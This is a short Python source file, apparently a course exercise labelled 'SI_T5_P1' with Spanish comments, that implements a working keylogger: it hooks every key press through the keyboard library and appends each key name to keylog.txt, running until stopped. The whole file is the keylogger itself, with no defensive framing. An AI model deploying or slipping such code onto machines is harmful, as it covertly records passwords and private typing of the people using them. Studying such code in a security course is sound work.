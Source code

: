 # SI_T5_P1
import keyboard  


# Es la función que se encarga de guardar dichas teclas en el archivo.

def imprimir_tecla(key):
    with open("keylog.txt", "a") as file:

        if key.name == "space":
            file.write(" ")
        else:
            file.write(key.name)
# Acción para que se quede registrada la tecla pulsada.
keyboard.on_press(imprimir_tecla)
# Permite al keylogger seguir ejecutandose.
keyboard.wait()
